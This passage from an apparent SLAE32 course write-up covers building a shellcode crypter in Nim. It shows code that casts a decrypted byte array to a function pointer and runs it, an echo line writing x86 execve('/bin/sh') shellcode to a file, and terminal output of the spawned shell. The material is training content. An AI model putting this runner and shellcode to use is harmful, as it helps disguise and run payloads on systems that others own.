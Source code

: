 Setting the `EIP` register was yet another hurdle. I couldn't simply get the address and then jump right to it, but I had to create a function pointing to the address of the first value of the array.

Follows the code that performs the execution of the shellcode, extracted from the program I linked previously:

```nim
proc main(): void =

    var shellcode_empty_array: array[1024, byte]

    for index, byte_value in decrypted_shellcode_bytes:
        shellcode_empty_array[index] = byte_value
    
    # get the address of the decrypted shellcode
    let shellcode_pointer = cast[ByteAddress](shellcode_empty_array.addr)
    
    # create a function pointing to this address
    var run_shellcode : (proc() {.cdecl, gcsafe.}) = cast[(proc() {.cdecl, gcsafe.})](shellcode_pointer)

    # in my case the function echo is based on fwrite, so you can set a
    #   breakpoint on fwrite if you want to check the shellcode:
    #       gef> b *fwrite
    echo "[+] Running shellcode"
    run_shellcode()
```

To test this new piece of code, I've created a file named `shellcode.bin` containing the following shellcode (`execve` of `/bin/sh`):

```bash
echo -ne "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80" > shellcode.bin
```

If you were to compile the program `decrypter.nim` for 32-bit x86 systems, and execute it, it would spawn a `/bin/sh` shell, as shown below:

```bash
rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef'

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin

rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef' --execute

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin
# [+] Running shellcode
$ whoami
# rbct
$ id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),113(bluetooth),118(scanner)
$ exit
rbct@debian11:~/slae32/assignment/7$
```